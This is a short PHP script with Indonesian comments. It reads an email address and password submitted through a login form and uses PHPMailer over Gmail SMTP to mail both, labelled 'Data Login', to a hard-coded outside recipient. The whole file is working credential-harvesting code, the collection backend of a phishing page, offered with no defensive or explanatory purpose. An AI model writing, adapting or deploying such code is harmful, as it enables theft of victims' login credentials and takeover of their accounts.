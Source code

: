 <?php
use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\Exception;

require 'path/to/PHPMailer/src/Exception.php';
require 'path/to/PHPMailer/src/PHPMailer.php';
require 'path/to/PHPMailer/src/SMTP.php';

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $email = $_POST["email"];
    $password = $_POST["password"];

    $mail = new PHPMailer(true);
    try {
        // Set up email server untuk mengirim email
        $mail->isSMTP();
        $mail->Host = 'smtp.gmail.com'; // Jika menggunakan Gmail, ganti dengan SMTP provider Anda
        $mail->SMTPAuth = true;
        $mail->Username = 'your-email@gmail.com'; // Ganti dengan email Anda
        $mail->Password = 'your-email-password'; // Ganti dengan password email Anda
        $mail->SMTPSecure = PHPMailer::ENCRYPTION_STARTTLS;
        $mail->Port = 587;

        // Set pengirim dan penerima
        $mail->setFrom('your-email@gmail.com', 'Nama Anda');
        $mail->addAddress('vosahe9504@anypng.com', 'Penerima'); // Ganti dengan alamat email yang ingin menerima data

        // Set isi email
        $mail->isHTML(true);
        $mail->Subject = 'Data Login';
        $mail->Body    = "Email: $email<br>Password: $password";

        // Kirim email
        $mail->send();
        echo 'Email berhasil dikirim!';
    } catch (Exception $e) {
        echo "Gagal mengirim email. Error: {$mail->ErrorInfo}";
    }
}
?>
